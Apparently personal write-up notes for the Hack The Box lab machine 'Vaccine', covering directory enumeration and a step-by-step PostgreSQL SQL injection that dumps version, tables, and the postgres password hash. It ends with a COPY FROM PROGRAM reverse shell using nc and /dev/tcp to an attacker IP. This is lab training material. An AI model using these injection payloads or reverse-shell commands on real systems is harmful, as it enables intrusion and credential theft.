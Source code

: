 # Vaccine (10.10.10.46) Apache
#vaccine
[[vaccine (10.10.10.46)]]
## Summary

## Procedure
1. GoBuster on root directory with common dirs
	```
	tyler@ubuntu:~/Documents/learn/htb/htb-starting-point/vaccine/artifacts$ gobuster dir -u http://localhost:8081/ -w /opt/SecLis
	ts-2021.2/Discovery/Web-Content/common.txt
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://localhost:8081/
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /opt/SecLists-2021.2/Discovery/Web-Content/common.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.1.0
	[+] Timeout:                 10s
	===============================================================
	2021/08/17 14:49:42 Starting gobuster in directory enumeration mode
	===============================================================
	/.htaccess            (Status: 403) [Size: 276]
	/.hta                 (Status: 403) [Size: 276]
	/.htpasswd            (Status: 403) [Size: 276]
	/index.php            (Status: 200) [Size: 2312]
	/server-status        (Status: 403) [Size: 276]

	===============================================================
	2021/08/17 14:51:16 Finished
	===============================================================
	```
2. Got SQL database to print error by searching for `'`
	```
	http://10.10.10.46/dashboard.php?search=%27
	
	ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
	```
	![[Pasted image 20210817151144.png]]
3. Got website to print database version
	```
	Search: ' UNION SELECT CAST(VERSION() AS INT),NULL,NULL,NULL,NULL--
	URL: http://10.10.10.46/dashboard.php?search=%27+UNION+SELECT+CAST%28version%28%29+AS+INT%29%2CNULL%2CNULL%2CNULL%2CNULL--
	Error: ERROR: invalid input syntax for integer: "PostgreSQL 11.5 (Ubuntu 11.5-1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.1.0-9ubuntu2) 9.1.0, 64-bit"
	```
	![[Pasted image 20210818100448.png]]
	- Database is `PostgreSQL 11.5 (Ubuntu 11.5-1)`
	- Operating System is `Ubuntu`
	- Table has 5 columns
	- [PortsWigger website](https://portswigger.net/web-security/sql-injection/examining-the-database) was very useful in finding this
4. Found database name
	```
	Search: ' UNION SELECT CAST(TABLE_CATALOG AS INT),NULL,NULL,NULL,NULL FROM INFORMATION_SCHEMA.TABLES--
	URL: http://10.10.10.46/dashboard.php?search=%27+UNION+SELECT+CAST%28TABLE_CATALOG+AS+INT%29%2CNULL%2CNULL%2CNULL%2CNULL+FROM+INFORMATION_SCHEMA.TABLES--
	Error: ERROR: invalid input syntax for integer: "carsdb"
	```
	![[Pasted image 20210818102106.png]]
	- Database name is: `carsdb`
5. Found table name
	```
	Search: ' UNION SELECT CAST(TABLE_NAME AS INT),NULL,NULL,NULL,NULL FROM INFORMATION_SCHEMA.TABLES--
	URL: http://10.10.10.46/dashboard.php?search=%27+UNION+SELECT+CAST%28TABLE_NAME+AS+INT%29%2CNULL%2CNULL%2CNULL%2CNULL+FROM+INFORMATION_SCHEMA.TABLES--
	Error: ERROR: invalid input syntax for integer: "cars"
	```
	![[Pasted image 20210818102224.png]]
	- Table name is: `cars`
6. Found website's db username
	```
	Search: ' UNION SELECT CAST(user AS INT),NULL,NULL,NULL,NULL--
	URL: http://10.10.10.46/dashboard.php?search=%27+UNION+SELECT+CAST%28user+AS+INT%29%2CNULL%2CNULL%2CNULL%2CNULL--
	Error: ERROR: invalid input syntax for integer: "postgres"
	```
	![[Pasted image 20210818102921.png]]
	- website's db user is `postgres`

7. Found `postgres` user's password hash
	```
	Search: ' UNION SELECT NULL,usename,passwd,NULL,NULL FROM pg_shadow--
	URL: http://10.10.10.46/dashboard.php?search=%27+UNION+SELECT+NULL%2Cusename%2Cpasswd%2CNULL%2CNULL+FROM+pg_shadow--
	Result: postgres, md52d58e0637ec1e94cdfba3d1c26b67d01
	```
	![[Pasted image 20210818105339.png]]
	- The pasword hash of `postgres` is `md52d58e0637ec1e94cdfba3d1c26b67d01`
8. Dumped all table names
	```
	Search: ' UNION SELECT NULL,table_name,NULL,NULL,NULL FROM information_schema.tables--
	URL: http://10.10.10.46/dashboard.php?search=%27+UNION+SELECT+NULL%2Ctable_name%2CNULL%2CNULL%2CNULL+FROM+information_schema.tables--
	Result: pg_init_privs,pg_stat_archiver,pg_inherits,_pg_foreign_servers,pg_stats,user_mappings,table_privileges,pg_auth_members,pg_stat_user_functions,pg_stat_wal_receiver,pg_am,columns,pg_seclabels,pg_rewrite,foreign_tables,pg_amproc,udt_privileges,pg_stat_progress_vacuum,pg_type,pg_ts_template,pg_stat_sys_tables,parameters,administrable_role_authorizations,_pg_foreign_data_wrappers,pg_tables,pg_opclass,pg_stat_database_conflicts,pg_stat_replication,pg_shdescription,foreign_server_options,pg_foreign_server,pg_attrdef,pg_namespace,pg_statio_sys_sequences,pg_stat_user_indexes,pg_statistic,pg_stat_xact_user_functions,pg_stat_xact_user_tables,pg_locks,pg_stat_subscription,column_options,routine_privileges,pg_policy,pg_cursors,pg_replication_origin_status,pg_config,applicable_roles,pg_aggregate,pg_available_extensions,pg_rules,pg_stat_xact_sys_tables,view_table_usage,pg_user,information_schema_catalog_name,pg_event_trigger,domain_constraints,column_udt_usage,sql_features,pg_stat_all_tables,check_constraint_routine_usage,pg_group,user_mapping_options,views,pg_prepared_xacts,triggered_update_columns,pg_statio_sys_tables,pg_matviews,pg_largeobject_metadata,pg_constraint,view_column_usage,foreign_data_wrapper_options,constraint_column_usage,check_constraints,pg_views,pg_stat_activity,pg_replication_origin,pg_conversion,_pg_user_mappings,pg_prepared_statements,pg_ts_dict,foreign_table_options,domain_udt_usage,pg_replication_slots,pg_depend,pg_statio_user_sequences,pg_description.pg_shadow,role_column_grants,pg_statistic_ext,pg_index,pg_foreign_table,table_constraints,pg_foreign_data_wrapper,pg_stat_bgwriter,pg_attribute,usage_privileges,domains,role_table_grants,column_domain_usage,collations,pg_stat_ssl,pg_class,pg_statio_sys_indexes,pg_transform,pg_db_role_setting,pg_amop,pg_ts_parser,pg_collation,pg_stat_sys_indexes,pg_publication_tables,pg_policies,pg_indexes,pg_subscription_rel,pg_sequences,pg_shdepend,role_usage_grants,pg_stat_user_tables,pg_cast,pg_publication_rel,pg_hba_file_rules,role_udt_grants,constraint_table_usagem,sql_sizing,_pg_foreign_tables,pg_enum,pg_settings,pg_statio_user_indexes,foreign_data_wrappers,pg_timezone_abbrevs,role_routine_grants,sql_packages,pg_tablespace,pg_ts_config,pg_ts_config_map,sql_parts,referential_constraints,routines,pg_proc,_pg_foreign_table_columns,view_routine_usage,sequences,pg_default_acl,pg_sequence,pg_seclabel,column_privileges,pg_database,pg_statio_user_tables,sql_sizing_profiles,sql_implementation_info,pg_opfamily,triggers,user_defined_types,tables,enabled_roles,collation_character_set_applicability,pg_range,pg_publication,pg_roles,data_type_privileges,attributes,pg_statio_all_tables,sql_languages,character_sets,pg_user_mapping,pg_partitioned_table,pg_stat_all_indexes,pg_file_settings,pg_timezone_names,pg_extension,pg_operator,pg_authid,pg_available_extension_versions,pg_statio_all_indexes,cars,pg_pltemplate,key_column_usage,pg_stat_database,pg_user_mappings,pg_stat_xact_all_tables,pg_trigger,pg_statio_all_sequences,transforms,foreign_servers,pg_subscription,pg_largeobject,pg_language, pg_shseclabel
	```
	![[Pasted image 20210818113548.png]]
9. Dumped all database names
	```
	Search: ' UNION SELECT NULL,datname,NULL,NULL,NULL FROM pg_database--
	URL: http://10.10.10.46/dashboard.php?search=%27+UNION+SELECT+NULL%2Cdatname%2CNULL%2CNULL%2CNULL+FROM+pg_database--
	Results: carsdb, postgres,template0,template1
	```
	![[Pasted image 20210818113722.png]]
10. Created a reverse shell with COPY command and busybox ncat
	```
	Search 1: ' ; CREATE TABLE twof(cmd_output text);--
	Search 2: ' ; COPY twof FROM PROGRAM 'rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.54 3602 >/tmp/f';--
	URL 1: http://10.10.10.46/dashboard.php?search=%27+%3B+CREATE+TABLE+twof%28cmd_output+text%29%3B--
	URL 2: http://10.10.10.46/dashboard.php?search=%27+%3B+COPY+twof+FROM+PROGRAM+%27%2Fbin%2Fbash+-l+%3E+%2Fdev%2Ftcp%2F10.10.15.54%2F3602+0%3C%261+2%3E%261+%26%27%3B--
	```
	![[Pasted image 20210818145409.png]]
